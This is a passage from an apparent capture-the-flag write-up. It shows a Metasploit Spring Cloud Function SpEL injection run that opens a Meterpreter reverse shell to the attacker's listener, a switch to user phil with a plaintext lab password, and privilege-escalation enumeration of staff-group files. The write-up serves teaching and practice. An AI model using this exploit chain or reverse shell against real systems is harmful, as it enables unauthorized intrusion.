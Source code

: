 After setting options in msfconsole, we get a shell as user frank.
```bash
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > run

[*] Started reverse TCP handler on 10.10.14.167:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 10.10.11.204
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (10.10.14.167:4444 -> 10.10.11.204:33702) at 2023-07-04 17:01:12 -0400

meterpreter > shell
Process 57134 created.
Channel 1 created.
whoami
frank
```

Now that we are in, we can try phil's password again:
```
su phil
Password: DocPhillovestoInject123
whoami
phil
```

From here we can grab `user.txt` in phil's home directory.
## Privilege Escalation
### Enumeration

Checking phil's `id`, we see he is in multiple groups:
```
id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```


Looking for things owned by this group:
```
find / -group "staff" 2>/dev/null
/opt/automation/tasks
/root
/var/local
/usr/local/lib/python3.8
/usr/local/lib/python3.8/dist-packages
/usr/local/lib/python3.8/dist-packages/ansible_parallel.py
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/LICENSE
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/RECORD
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/entry_points.txt
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/WHEEL
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/METADATA
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/top_level.txt
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/INSTALLER
/usr/local/lib/python3.8/dist-packages/__pycache__
/usr/local/lib/python3.8/dist-packages/__pycache__/ansible_parallel.cpython-38.pyc
/usr/local/share/fonts
/usr/local/share/fonts/.uuid
```
